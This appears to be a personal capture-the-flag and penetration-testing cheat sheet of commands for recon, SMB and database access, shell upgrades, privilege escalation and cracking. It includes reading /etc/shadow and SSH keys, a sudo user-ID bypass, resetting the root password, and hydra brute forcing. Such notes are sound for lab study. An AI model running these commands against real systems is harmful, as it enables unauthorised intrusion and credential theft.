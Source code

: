 # step by step

## osint
https://dnsdumpster.com/
https://web.archive.org/
https://dorksearch.com/
https://www.shodan.io/
https://haveibeenpwned.com
https://data.mashedworld.com/dualmaps/map.htm

## recon
ping {ip}
whois {domain}
nslookup {ip}
dig {ip}
dnsrecon -d {domain} -a
host {domain}

## target scanning
sudo nmap --open #-p- for full port scan #-sV version detection #-sC default scripts #-Pn host discovery
(if hostname is found in nmap then add its hostname and ip to the /etc/hosts file)
(if sites, visit and if see versions, lookup cves)

subfinder -d {domain}
dnsgen urls.lst | httprobe
httpx
whatweb

## remote exploits
### http/https
if seeing any url with a number change the number

### ftp
ftp anonymous@{IP}

### smb
smbmap -H {IP} #list shares on target with anomouse
smbmap -H {IP} -u {username} #guest/administrator
smbclient -L={IP} -U Administrator #try a login
smbclient //{IP}/{the\ share\ name} #connect to specifiec share
RECURSE ON
PROMPT OFF
cd {dir}
mget /Policies/*/MACHINE/Preferences/Groups/Groups.xml
mget *
smbget -R smb://{ip}/anonymous

### psql
psql -U {USER} -h {IP} -p 5432
\l #list databases
\c {name} #connect to a database
\dt #list tables
select * from {table} #show table content

### finding github source
when finding the source code,
compare the changes,
sometimes in this there might be found the difference

## getting connections
ssh -t {user}@{ip} /bin/sh
xfreerdp /v:{IP} /u:{USER} /p:{PASSWORD}
telnet {ip} {port}

### basic shell -> shell++
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```
script /dev/null -c bash
```
ctrl+Z and then
```
stty raw -echo && fg
```

### recon from a shell
whoami
id #default groups: audio video plugdev cdrom dip floppy netdev
groups
uname -a
printenv
cat /etc/sudoers
cat */.bash_history
cat */.bashrc
cat /etc/sudoers
cat /etc/sudoers.d
cat /etc/crontab
cat /var/spool/*
cat /etc/systemd/system
cat */.ssh/
cat /opt/
cat /etc/passwd
cat /etc/shadow

ss -tln #identify localports
ss -tla #identify name

find / -user root -perm /4000 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null #find tools that have an suid, look these up on https://gtfobins.github.io/
chmod -s {found_binary} # to disallow others from abusing it

pspy32 #spy tool, open it on a host, login on second terminal, and maybe gain stuff
echo -e "hackerpassword\nhackerpassword" | passwd root

grep -r "THM{" / >> temp_flags.txt 2>/dev/null

nano /etc/passwd #shells -> /sbin/nologin

### sudo -L
https://gtfobins.github.io/#+sudo
sudo -u#-1 /bin/bash

### ls *.ssh/ 
look for keys and try to login with them to other users
ssh {user}@{ip} -i {keyfile}

ssh2john {keyfile}>hash

#### pgp key decryption
gpg2john {file}.asc > hash
john --format=gpg --wordlist=/usr/share/wordlist/rockyou.txt hash
gpg --import {file}.asc
gpg --decrypt {file}.gpg

### windows
cd C:\Program Files (x86)
dir

Get-ExecutionPolicy
Set-ExecutionPolicy -ExecutionPolicy Bypass

PrivescCheck.ps1

## cracking hashes
zip2john file.zip>{hashfile}
john {hashfile}
john {hashfile} --show

hashcat -a 0 -m 20 {hashfile} /usr/share/wordlists/rockyou.txt

## brute forcing
hydra -L users.txt -P pass.txt {IP} ssh
hydra -l mike -P /usr/share/wordlists/rockyou.txt -vV {ip} ftp

gobuster dir --url {ip} --wordlist /usr/share/wordlists/dirb/big.txt
gobuster dns -d {domain} --wordlist /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt

feroxbuster -u {ip}

ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://{domain}/ -H "HOST:FUZZ.{domain}" -fw 1 #vhost
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://{domain} -H 'Host: FUZZ.{domain}' -fw 4 -t 100
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -u http://{domain} -H 'Host: http://{domain}/FFUZ' -ic -t 100


